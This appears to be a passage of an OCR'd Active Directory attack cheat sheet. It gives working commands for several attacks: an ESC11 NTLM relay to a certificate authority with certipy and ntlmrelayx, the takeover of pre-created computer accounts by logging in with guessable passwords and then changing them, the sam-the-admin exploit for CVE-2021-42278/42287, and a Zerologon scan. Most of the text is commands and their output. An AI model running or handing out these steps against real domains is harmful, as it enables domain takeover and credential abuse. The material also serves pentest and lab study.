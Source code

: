 # Add -domain <domain> to your command line since there is no domain specified in the certificate.
ESC11 - Relaying NTLM to ICPR
Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

Requirements:

sploutchy/Certipy - Certipy fork
sploutchy/impacket - Impacket fork
Exploitation:

Look for Enforce Encryption for Requests: Disabled in certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout output
Setup a relay using Impacket ntlmrelay and trigger a connection to it.
ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
PRE-CREATED COMPUTER ACCOUNTS
FINDING PRE-CREATED COMPUTER ACCOUNTS
For instance, the computer account DavesLaptop$ would have the password daveslaptop

Note that when dealing with computer accounts, it is smart to escape the $ with a \.
impacket-smbclient <domain>/<computer account>\$:<password>@<IP>

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] SMB SessionError: STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT(The account used is a computer account. Use your global user account or local user account to access this server.)
Notice we have STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT

Change The Password
We can use either of these:

https://github.com/fortra/impacket/blob/master/examples/changepasswd.py
https://github.com/api0cradle/impacket/blob/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py
python3 rpcchangepwd.py <domain>/<computer account>\$:<password>@<IP> -newpass P@ssw0rd                           31s
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Password was changed successfully.
Connect to SMB with the new creds
impacket-smbclient <domain>/<computer account>\$:<new set password>@<IP>
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# 
- Reference : https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/

Exploiting CVE-2021-42278 and CVE-2021-42287
Download the epxloit script https://github.com/WazeHell/sam-the-admin

bash$ python3 sam_the_admin.py "<domain_name>/<username>:<password>" -dc-ip <DC_IP>
If the AD is vulnerable we will have the following output: AD exploit

Scanning for Zerologon
SecuraBV zerologon scanner https://github.com/SecuraBV/CVE-2020-1472
We can use crackmapexec to extract the DC name
